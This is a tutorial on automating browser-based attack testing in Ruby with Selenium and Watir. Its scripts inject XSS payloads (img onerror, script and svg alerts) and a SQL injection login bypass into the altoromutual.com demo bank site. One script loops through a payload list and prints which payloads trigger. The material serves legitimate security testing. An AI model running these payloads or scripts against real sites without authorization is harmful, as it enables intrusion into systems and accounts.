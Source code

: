 # Browser Manipulation 
As a hacker, sometimes you need to automate your client side tests (ex. XSS) and reduce the false positives that happen specially in XSS tests. The traditional automation depends on finding the sent payload been received in the response, but it doesn't mean the vulnerability get really exploited so you have to do it manually again and again.

Here we'll learn to make ruby control our browser in order to **emulate** the same attacks from browser and get the real results.

The most known APIs for this task are ***Selenium*** and ***Watir*** which support most know web browsers currently exist.

## Selenium Webdriver
[**Selenium**](https://github.com/seleniumhq/selenium) is an umbrella project encapsulating a variety of tools and libraries enabling web browser automation.

- To install selenium gem
```
gem install selenium-webdriver
```


### GET Request 
```ruby
#!/usr/bin/env ruby
#
#
require "selenium-webdriver"

# Profile Setup and Tweak 
proxy = Selenium::WebDriver::Proxy.newproxy = Selenium::WebDriver::Proxy.new(
  :http     => PROXY,
  :ftp      => PROXY,
  :ssl      => PROXY
)       # Set Proxy hostname and port 
profile = Selenium::WebDriver::Firefox::Profile.from_name "default"     # Use an existing profile name 
profile['general.useragent.override'] = "Mozilla/5.0 (compatible; MSIE 9.0; " + 
                                        "Windows Phone OS 7.5; Trident/5.0; " + 
					                    "IEMobile/9.0)"                 # Set User Agentprofile.proxy = proxy                                                   # Set Proxy
profile.assume_untrusted_certificate_issuer = false                     # Accept untrusted SSL certificates 

# Start Driver 
driver = Selenium::WebDriver.for(:firefox, :profile => profile)         # Start firefox driver with specified profile
# driver = Selenium::WebDriver.for(:firefox, :profile => "default")     # Use this line if just need a current profile and no need to setup or tweak your profile
driver.manage.window.resize_to(500, 400)                                # Set Browser windows size
driver.navigate.to "http://www.altoromutual.com/search.aspx?"           # The URL to navigate 

# Interact with elements
element = driver.find_element(:name, 'txtSearch')   # Find an element named 'txtSearch'
element.send_keys "<img src=x onerror='alert(1)'>"  # Send your keys to element
element.send_keys(:control, 't')                    # Open a new tab
element.submit                                      # Submit the text you've just sent
```


> Note that the actual keys to send depend on your OS, for example, Mac uses `COMMAND + t`, instead of `CONTROL + t`.


### POST Request 
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

browser = Selenium::WebDriver.for :firefox
browser.get "http://www.altoromutual.com/bank/login.aspx"

wait = Selenium::WebDriver::Wait.new(:timeout => 15)		# Set waiting timeout
# Find the input elements to interact with later.
input = wait.until {
  element_user = browser.find_element(:name, "uid")
  element_pass = browser.find_element(:name, "passw")
  # Retrun array of elements when get displayed
  [element_user, element_pass] if element_user.displayed? and element_pass.displayed?
}

input[0].send_keys("' or 1=1;--")   # Send key for the 1st element 
input[1].send_keys("password")      # Send key fro the next element
sleep 1

# Click/submit the button based the form it is in (you can also call 'btnSubmit' method)
submit = browser.find_element(:name, "btnSubmit").click #.submit

# browser.quit
```


Let's test the page against XSS vulnerability. First I'll list what kind of action we need from browser

1. Open a browser window (Firefox)
2. Navigate to a URL (altoromutual.com)
3. Perform some operations (Send an XSS payload)
4. Check if the payload is working(Popping-up) or it's a false positive 
5. Print the succeed payloads on terminal

**selenium-xss.rb**
```ruby
#!/usr/bin/env ruby
#
#
require 'selenium-webdriver'

payloads = 
  [ 
    "<video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

browser = Selenium::WebDriver.for :firefox
browser.manage.window.resize_to(500, 400)
browser.get "http://www.altoromutual.com/search.aspx?"

wait = Selenium::WebDriver::Wait.new(:timeout => 20)

payloads.each do |payload|
  input = wait.until do
      element = browser.find_element(:name, 'txtSearch')
      element if element.displayed?
  end
  input.send_keys(payload)
  input.submit
  
  begin 
    wait.until do 
      txt = browser.switch_to.alert
      if (1..100) === txt.text.to_i
	    puts "Payload is working: #{payload}"
	    txt.accept 
      end
    end
  rescue Selenium::WebDriver::Error::NoAlertOpenError
    puts "False Positive: #{payload}"
    next
  end
  
end

browser.close
```

Result
```
> ruby selenium-xss.rb
Payload is working: <video src=x onerror=alert(1);>
Payload is working: <img src=x onerror='alert(2)'>
Payload is working: <script>alert(3)</script>
Payload is working: <svg/OnlOad=prompt(4)>
False Positive: javascript:alert(5)
False Positive: alert(/6/.source)
```



## Watir Webdriver
[**Watir**](http://watirwebdriver.com/) is abbreviation for (Web Application Testing in Ruby). I believe that Watir is more elegant than Selenium but I like to know many ways to do the same thing, just in case. 

- To install watir gem
```
gem install watir-webdriver
```


### GET Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.goto "http://www.altoromutual.com/search.aspx?"
browser.text_field(name: 'txtSearch').set("<img src=x onerror='alert(1)'>")
btn = browser.button(value: 'Go')
puts btn.exists?
btn.click

# browser.close
```

### POST Request 

```ruby
#!/usr/bin/env ruby
#
#
require 'watir-webdriver'

browser = Watir::Browser.new :firefox
browser.window.resize_to(800, 600)
browser.window.move_to(0, 0)
browser.goto "http://www.altoromutual.com/bank/login.aspx"
browser.text_field(name: 'uid').set("' or 1=1;-- ")
browser.text_field(name: 'passw').set("password")
btn = browser.button(name: 'btnSubmit').click 

# browser.close
```

> - Since Waiter is integrated with Selenium, you can use both to achieve one goal 
> - For Some reason in some log-in cases, you may need to add a delay time between entering username and password then submit.



## Selenium, Watir Arbitrary POST request
Here another scenario I've faced, I was against POST request without submit button, in another word, the test was against intercepted request generated from jquery function, in my case was a drop menu. So The work round wad quite simple, Just create an HTML file contains POST form with the original parameters plus a **submit button** then call that html file to the browser and deal with it as normal form.





<br><br><br>
---
- [Selenium official documentations](http://docs.seleniumhq.org/docs/)
- [Selenium Cheat Sheet](https://gist.github.com/kenrett/7553278) 
- [Selenium webdriver vs Watir-webdriver in Ruby](http://watirmelon.com/2011/05/05/selenium-webdriver-vs-watir-webdriver-in-ruby/)
- [Writing automate test scripts in Ruby](https://www.browserstack.com/automate/ruby)
- [Selenium WebDriver and Ruby](https://swdandruby.wordpress.com/)
- [The Selenium Guidebook - Commercial ](https://seleniumguidebook.com/)
- [Watir WebDriver](http://watirwebdriver.com/)
- [Watir Cheat Sheet](https://github.com/watir/watir/wiki/Cheat-Sheet)